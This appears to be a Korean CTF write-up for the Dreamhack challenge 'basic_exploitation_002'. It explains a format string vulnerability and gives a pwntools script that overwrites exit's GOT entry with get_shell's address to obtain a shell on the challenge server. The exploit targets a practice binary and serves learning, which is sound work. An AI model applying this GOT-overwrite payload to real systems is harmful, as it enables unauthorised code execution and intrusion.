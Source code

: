 ```c
    exit(0);
}
```

### Vulnerability Scanning

- `checksec`
    
	<p align="center">
		<a href="/assets/images/TIL220808/Untitled (3).png">
			<img src="/assets/images/TIL220808/Untitled (3).png" width="600">
   		</a>
	</p>     
- 사용자가 임의로 입력한 `buf`를 이용해 `print(buf)`를 실행하므로 **fsb**가 발생할 수 있다.
- `get_shell()`을 실행하면 shell을 획득할 수 있다.

### Exploit

`main`이 return하지 않고 `exit(0)`을 실행하기 때문에 return address는 overwrite할 수 없다. 하지만 Partial RELRO가 적용되어 있어 `exit`의 GOT를 overwrite할 수 있으므로, **fsb를 이용해** `exit`**의 GOT를** `get_shell`**의 주소로 overwrite**하면 된다.

```python
from pwn import *

#p = process("./basic_exploitation_002")
p = remote("host3.dreamhack.games", 12532)
#gdb.attach(p)
e = ELF("./basic_exploitation_002")

get_shell = 0x08048609
exit_got = 0x804a024

payload = p32(exit_got)
payload += p32(exit_got + 2)

s = "%{}c".format(0x8609 - 8)
s += "%1$hn"
s += "%{}c".format(0x0804 - 0x8609 + 0x10000)
s += "%2$hn"

payload += s.encode()

p.sendline(payload)

p.interactive()
```

